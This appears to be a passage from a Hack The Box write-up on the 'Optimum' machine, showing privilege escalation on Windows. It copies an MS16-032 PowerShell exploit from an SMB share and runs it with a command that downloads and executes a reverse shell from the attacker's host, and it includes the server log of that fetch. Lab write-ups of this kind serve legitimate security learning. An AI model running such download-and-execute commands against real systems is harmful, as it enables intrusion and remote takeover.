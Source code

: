 ```
copy //10.10.16.7/smbfolder/ms16-098.ps1 .                                                                                                                                                                                                                    
dir                                                                                                                                                                                                                                                           


    Directory: C:\Users\kostas\Desktop                                                                                                                                                                                                                        


Mode                LastWriteTime     Length Name                                                                                                                                                                                                             
----                -------------     ------ ----                                                                                                                                                                                                             
-a---        17/10/2023   9:10 ??       4005 bfill.exe                                                                                                                                                                                                        
-a---         18/3/2017   2:11 ??     760320 hfs.exe                                                                                                                                                                                                          
-a---        17/10/2023  11:18 ??      13789 ms16-098.ps1                                                                                                                                                                                                     
-a---        17/10/2023   8:00 ??     560128 priv.exe                                                                                                                                                                                                         
-ar--        23/10/2023  11:45 ??         34 user.txt
```
Once on `optimum` I will Import the function `Invoke-MS16032` from the `MS16-098.ps1` script. Point to remeber, always use `.\yourscript.ps1` when importing a module to powershell, learnt it the hadrway :)

```powershell
import-module .\ms16-098.ps1
```

On my other terminal, I will host the same `nishang` script I used to get a foothold but change the port to `9002`.

Once done I will execute below command on `optimum`

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.7/shell.ps1')"
```
This will reach out to my box and download and execute shell.ps1 which has my reverse shell.

```
┌─[george@parrot]─[~/HTB/boxes/optimum/www]
└──╼ $ sudo python3 -m http.server 80
[sudo] password for george:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [17/Oct/2023 23:52:32] "GET /shell.ps1 HTTP/1.1" 200 -
```
